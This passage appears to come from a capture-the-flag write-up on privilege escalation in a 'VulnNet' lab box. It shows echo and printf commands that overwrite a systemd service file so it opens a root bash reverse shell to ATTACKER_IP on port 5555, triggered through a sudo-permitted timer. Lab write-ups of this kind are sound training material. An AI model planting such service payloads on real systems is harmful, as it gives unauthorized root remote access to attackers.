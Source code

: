 <br>

I tried to use `nano` to edit vulnnet-job.service directly, but it was not working, even after upgrading to a fully-interactive shell.

Next, I tried to use `echo` to completely replace the file:

```
echo '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service
```

However, the `\n` characters were not being recognized as newline characters.

Doing some troubleshooting, I discovered an alternative to `echo` that worked - `printf`

```
printf '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service
```

With that, our modified vulnnet-job.service file now looks like this:

<img style="float: left;" src="screenshots/screenshot24.png">

I then set up a netcat listener and ran the following command:

```
sudo /bin/systemctl start vulnnet-auto.timer
```

This will call **vulnnet-auto.timer** as root, which will then call **vulnnet-job.service**, which in turn will execute our reverse shell command.

<img style="float: left;" src="screenshots/screenshot25.png">

And we're in as root!

The root flag can be found in **/root**:

<img style="float: left;" src="screenshots/screenshot26.png">
